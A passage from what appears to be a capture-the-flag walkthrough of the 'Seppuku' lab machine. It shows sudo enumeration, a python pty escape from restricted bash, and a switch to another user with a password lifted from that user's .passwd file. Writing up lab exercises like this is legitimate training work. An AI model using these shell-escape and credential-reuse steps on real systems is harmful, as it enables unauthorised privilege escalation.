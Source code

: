 Checking the subdirectories within `/home` reveals that there are other users:

~~~
seppuku@seppuku:~$ ls -l /home
total 12
drwxr-xr-x 4 samurai samurai 4096 Oct  4 04:23 samurai
drwxr-xr-x 3 seppuku seppuku 4096 Oct  4 04:23 seppuku
drwxr-xr-x 7 tanto   tanto   4096 Oct  4 04:06 tanto
~~~

And checking the privileges reveals that we can create a symbolic link of `/root` in `/tmp`:

~~~
seppuku@seppuku:~$ sudo -l
Matching Defaults entries for seppuku on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seppuku may run the following commands on seppuku:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
~~~

## Evade rbash:

Trying to change directory will fail due to a restricted bash. You can easily evade it by spawning a bash in python:

~~~
seppuku@seppuku:~$ cd /
-rbash: cd: restricted
seppuku@seppuku:~$ python -c "import pty;pty.spawn('/bin/bash')"
~~~

# Lateral move (sppuku -> samurai)

We can switch to `samurai` using the password found in `/home/samurai/.passwd`:

~~~
seppuku@seppuku:~$ su samurai
Password: 12345685213456!@!@A
samurai@seppuku:/home/seppuku$ id
uid=1001(samurai) gid=1002(samurai) groups=1002(samurai)
~~~

Checking the privileges now reveals that we can execute a script located in `tanto`'s home directory, but we don't have write access.

~~~
samurai@seppuku:~$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
~~~
